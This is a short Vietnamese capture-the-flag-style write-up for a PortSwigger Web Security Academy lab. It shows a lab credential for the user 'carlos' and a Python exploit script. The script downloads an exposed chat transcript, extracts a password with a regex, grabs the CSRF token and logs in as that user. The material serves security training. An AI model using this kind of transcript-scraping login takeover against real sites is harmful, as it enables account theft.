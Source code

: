 Truy cập vào tài khoản `carlos:h8xmypxyywrq3llemn4q` để hoàn thành lab :100:

mình đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0aee009d049eb773880a38ae003500f4.web-security-academy.net'

# Get carlos password

session = requests.Session()

response = session.get(
    url + '/download-transcript/1.txt',
    verify=False,
    allow_redirects=False
)

pattern = r'\b\w{20}\b'
password = re.search(pattern, response.text).group()

response = session.get(
    url + '/login',
    verify=False
)

soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name':'csrf'})['value']

data = {
    'csrf': csrf,
    'username': 'carlos',
    'password': password
}

response = session.post(
    url + '/login',
    data=data,
    verify=False
)
# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/B1du04aFp.png)
